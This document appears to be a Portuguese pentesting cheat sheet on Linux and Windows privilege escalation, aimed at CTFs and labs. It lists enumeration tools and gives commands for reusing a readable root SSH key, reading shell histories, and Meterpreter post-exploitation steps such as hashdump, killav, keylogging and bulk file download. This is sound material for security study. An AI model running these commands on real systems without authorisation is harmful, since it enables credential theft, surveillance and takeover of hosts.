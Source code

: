 # 🧬 Privilege Escalation - Anotações de Elevação de Privilégios

Este documento contém referências, comandos e dicas para **elevação de privilégios em ambientes Linux e Windows**, seja em CTFs, pentests ou laboratórios de estudo.

---

## 📜 Scripts de Enumeração (Linux / Windows)

Ferramentas automatizadas para levantamento de informações que possam levar à escalada de privilégios:

- 🔍 [PEASS-ng (LinPEAS / WinPEAS)](https://github.com/peass-ng/PEASS-ng)
- 🐧 [LinEnum](https://github.com/rebootuser/LinEnum)
- 🧪 [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
- 🪟 [Seatbelt (Windows)](https://github.com/GhostPack/Seatbelt)
- 🪟 [JAWS - Windows Privilege Escalation](https://github.com/411Hall/JAWS)

> ⚠️ **Atenção:** Esses scripts executam diversos comandos potencialmente detectáveis por antivírus ou sistemas de monitoramento. Em ambientes sensíveis ou reais, considere fazer **enumeração manual** para reduzir o "ruído".

---

## 🛠️ Dicas e Técnicas Gerais

Comandos e abordagens manuais úteis para escalada de privilégios.

### 🔑 Acesso via chave SSH do root

Verifique permissões da chave privada do root:

```bash
ls -ld /root/.ssh/id_rsa
```
Se tiver leitura, copie o conteúdo, salve como id_rsa localmente e:

```bash
chmod 600 id_rsa
ssh root@<IP> -i id_rsa
```
### 🔎 Enumeração de Sistema e Ambiente Linux

```bash
# Informações do kernel e sistema
cat /proc/version
uname -a
lsb_release -a
cat /etc/os-release

# Variáveis de ambiente
echo $PATH
env
set
```
### 🔎 Enumeração de Sistema e Ambiente Windows

```bash
sysinfo
getuid
whoami /priv
getsystem
ps
getpid e depois migrate id_de_outro_processo_para_persisntecia
bypass de UAC
hashdump
```
### Meterpreter

```bash
run killav
screenshot
run vnc
keyscan_start
keyscan_dump
search -d C:/Users -f .pdf
download -r caminho
```


### 🔐 Permissões Sudo
Verifique permissões do usuário:

```bash
sudo -l
```

### 📦 Pacotes, Jobs e Reutilização
Verificar pacotes instalados (Linux):

```bash
dpkg -l
```

### Checar histórico de comandos:

```bash
cat ~/.bash_history
# Ou, no Windows:
Get-Content (Get-PSReadlineOption).HistorySavePath
```

## 🌐 Sites e Recursos Úteis

- 🧠 [HackTricks](https://book.hacktricks.xyz/)  
  Guia abrangente sobre pentest, enumeração, privilege escalation, bypasses e muito mais.

- 📂 [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)  
  Repositório com payloads organizados por categoria (XSS, LFI, privilege escalation, etc).

- 🔍 [GTFOBins](https://gtfobins.github.io/)  
  Abusa de binários comuns do Linux para executar comandos com escalada de privilégios.

- 🧬 [LOLBAS](https://lolbas-project.github.io/)  
  Coleta de binários nativos do Windows que podem ser abusados para execução arbitrária.

- 💣 [Exploit-DB (searchsploit)](https://www.exploit-db.com/)  
  Banco de dados de exploits — também acessível via CLI com o comando `searchsploit`.





